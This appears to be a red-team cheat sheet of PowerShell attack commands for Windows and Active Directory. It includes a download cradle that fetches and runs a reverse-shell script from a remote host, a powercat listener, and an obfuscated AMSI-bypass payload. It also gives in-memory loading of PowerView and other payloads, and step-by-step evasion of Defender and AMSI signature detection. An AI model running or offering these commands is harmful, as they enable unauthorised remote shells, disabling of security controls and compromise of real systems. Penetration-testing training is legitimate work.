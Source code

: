 ```
```

### RevShell using PowerShellTcp.ps1 & getting a shell using powercat in powershell
```
powershell.exe iex (iwr http://172.16.100.7:9090/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.7 -Port 889
powercat -l -v -p 889 -Timeout 100
```

# PowerShell

Bypassing PowerShell Security using Invisi-Shell  (https://github.com/OmerYa/Invisi-Shell)
```
RunWithPathAsAdmin.bat  (Admin Privilege)
RunWithRegistryNonAdmin.bat  (non-Admin Privilege)
```

Load a script and module (local)
```
. C:\AD\Tools\PowerView.ps1
OR
Import-Module C:\AD\Tools\PowerView.ps1
```

list all the commands u can use in a particular module
```
Get-Command -Module <modulename>
```

Run PowerShell Script on memory after getting a reverse shell
```
iex (iwr http://10.0.10.16/sbloggingbypass.txt-UseBasicParsing)

S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

iex ((New-Object Net.WebClient).DownloadString('http://10.10.10.6/PowerView.ps1')
```

Load a script and module (remotely)
```
ine (New-Object Net.WebClient).DownloadString('http://10.10.16.10/payload.ps1')
```
Bypassing AV Signatures for PowerShell
.      Invoke-Mimi & Invoke-MimiEx are the obfuscated tools of Invoke-Mimikatz
.      if u r going to run a PowerShell script from the disk it may get detected; u can use the AMSITrigger (https://github.com/RythmStick/AMSITrigger) tool to identify the exact part of a script that is detected
.      Scan using AMSITrigger 'AmsiTrigger_x64.exe -i PowerUp.ps1' | Modify the detected code by reversing ex. 'System.AppDomain' to 'niamoDppA.metsyS' | Rescan using AMSITrigger | Repeat the steps till u get a result as "AMSI_RESULT_NOT_DETECTED"
.      u can use DefenderCheck (https://github.com/t3hbb/DefenderCheck) to identify code and strings from a binary / file that Windows Defender may flag
.      simply provide path to the script file to scan it
-     AmsiTrigger_x64.exe -i C:\AD\Tools\Invok-PowerShellTcp_Detected.ps1 DefenderCheck.exe PowerUp.ps1
.      for full obfuscation of PowerShell scripts use Invoke-Obfuscation (https://github.com/danielbohannon/Invoke-Obfuscation)
example of minimal obfuscation; if u run powerup.ps1 and the following line got detected "New-Object System.Net.Sockets.TCPClient($IP,$PORT)"
## Reverse the "Net.Sockets" string on line number 32